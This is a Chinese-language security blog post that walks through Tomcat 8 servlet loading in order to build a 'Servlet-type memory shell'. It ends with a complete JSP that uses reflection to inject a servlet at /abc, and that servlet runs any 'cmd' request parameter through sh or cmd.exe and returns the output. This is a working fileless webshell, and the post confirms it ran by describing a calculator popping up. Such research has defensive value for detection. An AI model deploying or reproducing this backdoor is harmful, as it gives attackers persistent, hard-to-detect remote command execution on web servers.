



# Tomcat-Servlet型内存马

<center>@Y4tacker</center>

这一篇是在tomcat8的版本下，进行的调试

## 简单配置一个Servlet

在web.xml添加，这里我们将load-on-startup值设置为1，原因是为了便于简化调试的过程，在每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet不会被动态添加到容器，这一点比较重要

```xml
<servlet-mapping>
        <servlet-name>TestServlet</servlet-name>
        <url-pattern>/export</url-pattern>
</servlet-mapping>
<servlet>
        <servlet-name>TestServlet</servlet-name>
        <servlet-class>com.jbxz.TestServlet</servlet-class>
        <load-on-startup>1</load-on-startup>
</servlet>
```

接下来随便写一个Servlet

```Java
public class TestServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        PrintWriter writer = response.getWriter();
        writer.println("hello");
    }
}

```

## 断点调试

在org.apache.catalina.core.StandardContext#loadServlet下断点看看怎么加载一个servlet的我们才能写内存马

先回溯到`org/apache/catalina/core/StandardContext.java`，虽然没啥多余的意义，但是我们在这里看到了确实是先加载完Listener和Filter之后，才装载Servlet




前面已经完成了将所有 servlet 添加到 context 的 children 中，this.findChildren()即把所有Wapper（负责管理Servlet）传入loadOnStartup()中处理，可想而知loadOnStartup()就是负责动态添加Servlet的一个函数

可以看到下面图中首先获取Context下所有的Wapper类，并获取到每个Servlet的启动顺序，选出 >= 0 的项加载到一个存放Wapper的list中



在每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet不会被动态添加到容器：

然后对每个wapper进行装载

很明显在第一行，我们可以看到这里加载servlet，同时这里注意下小知识点，Java的synchronized是Java中的关键字，被Java原生支持，是一种最基本的同步锁，它可以帮助我们解决线程冲突


在这里通过获取servletClass来装载servlet


装载所有的 Servlet 之后，就会根据具体请求进行初始化、调用、销毁一系列操作： 

```
装载：启动服务器时加载Servlet的实例

初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成

调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法（doGet、doPost内部实现，具体参照HttpServlet类service()的重写）

销毁：停止服务器时调用destroy()方法，销毁实例
```

因此一个很重要的就是之前的StandardWrapper

还记得之前的findChildren()么，一个child对应一个封装了Servlet的StandardWrapper对象，所以我们需要去构造一个wrapper

接下来我们一步一步往上思考，这样才能逐渐接近真相，接下来我们来思考，这个wrapper又是从哪里取得的呢，没错就是findChildren()遍历的时候得到的，很容易我们就能找到添加的函数

`org.apache.catalina.core.StandardContext#addChild`其调用`super.addChild(child);`也就是`org.apache.catalina.core.ContainerBase#addChild`

这个父类也是通过调用`addChildInternal`，在这里会注册这个Servlet，这里不多讲有兴趣可以进一步跟入

之后我们再次回到`org.apache.catalina.core.StandardContext#addChild`

这里很重要哦，由于我们是通过访问jsp文件所以这里也是要执行的，只是调试的时候不会有


## 动手实现一个Servlet型号=内存马

通过上面的步骤，所以Servlet型内存Webshell的主要步骤如下：

- 创建恶意Servlet
- 用Wrapper对其进行封装
- 添加封装后的恶意Wrapper到StandardContext的children当中
- 添加ServletMapping将访问的URL和Servlet进行绑定

## demo


```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/abc", name);
%>
```

## 测试

先访问jsp注入servlet内存马


接下来访问路由成功弹出计算器


